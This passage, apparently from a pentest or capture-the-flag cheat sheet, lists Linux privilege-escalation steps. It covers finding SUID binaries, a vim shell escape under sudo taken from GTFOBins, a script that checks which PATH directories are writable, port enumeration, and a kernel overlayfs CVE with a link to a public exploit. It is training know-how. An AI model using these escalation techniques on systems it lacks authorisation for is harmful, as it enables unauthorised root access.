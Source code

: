 and we have root access.

You can try to find all the files that has the suid flag set:

```bash
find / -perm -u=s -type f 2>/dev/null
```

#### GTFObins

If `sudo -l` shows permission for any binary, check https://gtfobins.github.io for a way to exploit the binary to gain root access.

E.g.: you can get root access with vim. If the user has sudo access to edit some file, you can abuse it to get root access: 

```bash
vi
:set shell=/bin/sh
:shell
```

#### Check write access to PATH

Check if you can write to some path in the PATH variable

```python
import os

paths = os.environ["PATH"].split(":")
for path in paths:
    writetable=True
    filename=f"{path}/a"
    try:
        with open(filename, "w") as file1:
            file1.write("Hello")
    except Exception:
        writetable=False
    if writetable:
        os.system(f"rm {filename}")
    print(path +" ... "+str(writetable))
```

#### Check open ports

Might be interesting to what ports are listening in the server, you might find something vulnerable listening only in localhost for example.

```bash
netstat -tunap |grep "LISTEN"
```

#### Kernel version

Search OS version and kernel for CVEs:

```
uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

If we look in Google for `6.2.0-25-generic #25~22.04.2-Ubuntu CVE` you'll see this link: https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability and this link https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
